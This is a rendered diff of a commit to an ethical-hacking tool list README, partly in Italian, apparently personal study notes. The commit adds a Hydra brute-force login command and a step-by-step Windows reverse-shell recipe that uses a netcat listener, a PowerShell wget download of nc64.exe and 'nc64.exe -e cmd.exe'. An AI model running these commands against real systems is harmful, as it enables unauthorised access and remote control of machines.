

Before and after one commit to Carromano/My_ETH_Tool_list, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -500,10 +501,16 @@ Cracks hashes with rainbow tables attacks, using time-memory trade-off algorithm
 
 >  http://project-rainbowcrack.com
 
+## THC-Hydra
+
+public tool on Github. parallelized login cracker that can attack numerous protocols.
+
+command line tool. Example:
+> hydra -L /root/Wordlists/Usernames.txt -P /root/Wordlists/Passwords.txt ftp://10.10.10.10
+
 ## Altri Tools
 
 - hashcat:  https://hashcat.net
-- THC-Hydra: free to use on github
 - Medusa: http://foofus.net
 - pwdump
 - Elcomsoft
@@ -819,0 +971,16 @@ Per riconoscere l'attacco con Wireshark, basta tenere d'occhio se compare un ele
+1. scaricare il file nc64.exe
+2. aprire porta netcat in ascolto:
+
+> nc -nvlp [PORTA]
+
+3. aprire in ascolto python http server dalla cartella in cui si è scaricato nc64.exe:
+
+> python3 -m http.server [PORTA]
+
+4. inserire il file nc64.exe sulla macchina remota:
+
+> powershell -c wget http://[IP]:[PORTA]/nc64.exe -outfile nc64.exe
+
+5. connettere cmd.exe alla nostra macchina tramite netcat:
+
+> powershell -c .\nc64.exe -e cmd.exe [IP] [PORTA]
```
Also changed, not shown: other parts of README.md (+145 -0 lines).
